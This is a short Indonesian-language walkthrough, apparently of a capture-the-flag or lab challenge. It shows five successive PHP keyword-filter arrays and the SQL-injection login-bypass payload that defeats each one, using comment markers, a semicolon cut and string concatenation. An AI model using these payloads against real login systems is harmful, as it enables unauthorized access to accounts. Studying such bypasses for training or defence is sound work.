 filter pertama yaitu 
$filter = array("or");

jika kita bisa membypass sqlinya tanpa query or kita bisa masuk round selanjutnya
SELECT * FROM users WHERE users = 'admin'-- - AND password = 'dsfdsfds';
payload = admin'-- -

filter ke 2 yaitu
$filter = array("or", "and", "like", "=", "--");

SELECT * FROM users WHERE users = 'admin'/* */ AND password = 'dsfdsfds';
payload = admin'/* */

filter ke 3 yaitu 
$filter = array(" ", "or", "and", "=", "like", ">", "<", "--");

SELECT * FROM users WHERE users = 'admin'; AND password = 'dsfdsfds';
payload = admin';

filter ke 4 yaitu
$filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "admin");
SELECT * FROM users WHERE username='ad'||'min'; AND password='pass'
payload = ad'||'min';

filter ke 5 yaitu 
$filter = array(" ", "or", "and", "=", "like", ">", "<", "--", "union", "admin");

SELECT * FROM users WHERE username='ad'||'min'; AND password='pass'
payload = ad'||'min';

